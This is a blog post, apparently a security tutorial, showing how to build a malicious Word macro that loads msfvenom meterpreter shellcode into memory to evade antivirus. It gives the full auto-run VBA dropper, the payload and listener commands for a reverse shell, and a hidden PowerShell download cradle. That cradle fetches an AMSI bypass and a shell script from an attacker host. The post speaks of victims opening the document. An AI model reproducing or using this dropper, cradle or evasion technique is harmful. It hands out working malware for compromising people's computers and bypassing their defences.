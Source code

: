 ```yaml
---
layout: post
title: Running ShellCode in Memory | AV Evasion – VBA Version 

---
```

![](/images/2021-08-13-VBAShell/0.png)

If you try to download an executable to get a reverse shell on a system, it most likely will be detected and blocked by either host-based network monitoring system or AV/EDR sweeps it off, so this post we will discuss how to be stealthier and execute shell code in memory.

For the sake of this example, I am going to use a word macro as a dropper to do this.

Although it may seem complicated, all we need to do is:

**1) Use something to allocate unmanaged memory**

**2) Copy our shell code into our allocated memory from step 1**

**3) Create execution thread**

I have gone about doing these two ways:

**1) Using VBA**

**2) Using Powershell**

In this post, we will discuss how we can get this to work with VBA:

For this, we will use win32 APIs from kernal32.dll:

**1) VirtualAlloc**

**2) RtlMemory**

**3) CreateThread**


If you want to know more about these, please read the MSDN documentations.


Let’s just be optimistic and generate our shellcode using msfvenom:



```
msfvenom -p windows/meterpreter/reverse_http LHOST=x.x.x.x LPORT=443 EXITFUNC=thread -f vbapplication

```


***Couple of things to note here:***

a)	We are using 32bit arc for the meterpreter shell since MS word by default runs on 32-bit Arc

b)	We are using “thread” as exit func instead of “process” to avoid our MS word getting terminated when shell exits


***Read the MSDN docs to understand how the function used works:***

1)	[VirtualAlloc]( https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)
2)	[rtlmovememory](https://docs.microsoft.com/en-us/windows/win32/devnotes/rtlmovememory)
3)	[Create Thread]( https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread )


***The whole VBS looks like this:***

```
Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr

Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr

Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr

Function MyMacro()
Dim buf As Variant
Dim addr As LongPtr
Dim counter As Long
Dim data As Long
Dim res As Long

buf = Array(insert shell code here)

addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)

For counter = LBound(buf) To UBound(buf)
data = buf(counter)
res = RtlMoveMemory(addr + counter, data, 1)
Next counter

res = CreateThread(0, 0, addr, 0, 0, 0)

End Function

Sub Document_Open()
MyMacro
End Sub

Sub AutoOpen()
MyMacro
End Sub

```



![](/images/2021-08-13-VBAShell/1.png)

Once you have this, save the word document in macro format such as .doc or .docm

Set up the listener:

```
set payload windows/meterpreter/reverse_http
set LHOST x.x.x.x
set LPORT 443
set EXITFUNC thread
set set ReverseListenerBindAddress <internal IP>
exploit
```

Once, the victim opens the macro document the shell code runs in memory and we get a reverse shell:



![](/images/2021-08-13-VBAShell/2.png)


![](/images/2021-08-13-VBAShell/3.png)


Now this is a low-profile technique, but there are some issues with this:

**1)	The shell code present in word document which is saved on hard drive might get detected by the AV**

**2)	Whenever the word file is closed the session get terminated since the SPAWNED process is a child of word file.**

***How can we improve these and make things more efficient?***

I will write up on this in a different post, but I will give the folks reading this post a chance to try it for themselves, so here are some clues:

**1)	Use Powershell for this, Powershell cannot interact with win32 API directly, so use C# with the help of .NET framework (DllImportAttribute class).**

**2)	Use P/Invoke APIs contained in the System.Runtime.InteropServices and System namespaces (changing C to C# datatype)**

Ref: [P/Invoke](www.pinvoke.net )

**3)	Now use Add-Type in PowerShell to compile and create object**

Reference: [Add-Type Example](http://adamringenberg.com/powershell2/Add-Type/ )

**4)	Use .NET Copy method to copy the shellcode into memory**

**5)	Finally, before running the shell code in memory make sure to use an AMSI bypass to run first (use PowerShell download cradle)**

Something like this:

```
Sub ShellCodeRunner() 

Dim str As String
  
str = "powershell IEX (New-Object Net.WebClient).DownloadString('http://X.X.X.X/AmsiBypass.ps1'); IEX (New-Object Net.WebClient).DownloadString('http://X.X.X.X/Shell.ps1')"
Shell str, vbHide End Sub
```

You just need to craft the content of shell.ps1 as your homework :)






















